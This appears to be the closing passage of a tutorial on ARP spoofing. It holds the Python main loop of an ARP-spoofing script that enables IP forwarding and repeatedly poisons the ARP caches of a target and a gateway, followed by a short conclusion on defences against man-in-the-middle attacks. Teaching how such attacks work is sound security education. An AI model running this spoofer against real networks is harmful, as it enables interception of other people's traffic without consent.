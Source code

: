 ```python
def main():
    parser = argparse.ArgumentParser() #create a new ArgumentParser object
    parser.add_argument('-g','--gateway', type=str, required=True) #add a new argument 'gateway' which is required and is a string
    parser.add_argument('-t','--target', type=str, required=True) #add a new argument 'target' which is required and is a string
    args = parser.parse_args() #parse the command line arguments
    try:
        p=0 #initialize a counter for the packets sent
        target_mac = get_target_mac(args.target) #get the mac address of the target
        gateway_mac = get_target_mac(args.gateway) #get the mac address of the gateway

        subprocess.call('echo 1 > /proc/sys/net/ipv4/ip_forward',shell=True) #enable packet forwarding on the system
        while True:
            spoof(args.target,target_mac,args.gateway,gateway_mac) #spoof the ARP cache of the host and the gateway
            p+=2 #increment the counter by 2
            print("\r\033[1;31;40mSending packets ["+ str(p) +"]\033[0m" ,end='') #print the counter
            time.sleep(3) #sleep for 3 seconds
    except KeyboardInterrupt:
        subprocess.call('echo 0 > /proc/sys/net/ipv4/ip_forward',shell=True) #disable packet forwarding on the system
        restore(args.target,target_mac,args.gateway,gateway_mac) #restore the ARP cache of the host and the gateway
        print("\nRestoring order ..")
        print("[+] Spoofing Stopped") 
```

### [](#header-3) Cocnlusion
MITM attacks and ARP spoofing can be highly effective at intercepting network traffic, and they can be difficult to detect and defend against. However, there are steps that individuals and organizations can take to protect themselves from these types of attacks. This can include using encryption to secure network traffic, implementing network monitoring and intrusion detection systems, and educating users about the risks of MITM attacks and how to protect against them. By understanding the risks and taking appropriate measures, it is possible to protect against MITM attacks and ARP spoofing.<br>
The full code of the script is available on [github](https://github.com/Ahmed-Z/arp-spoofer).<br>
HAPPY HACKING.
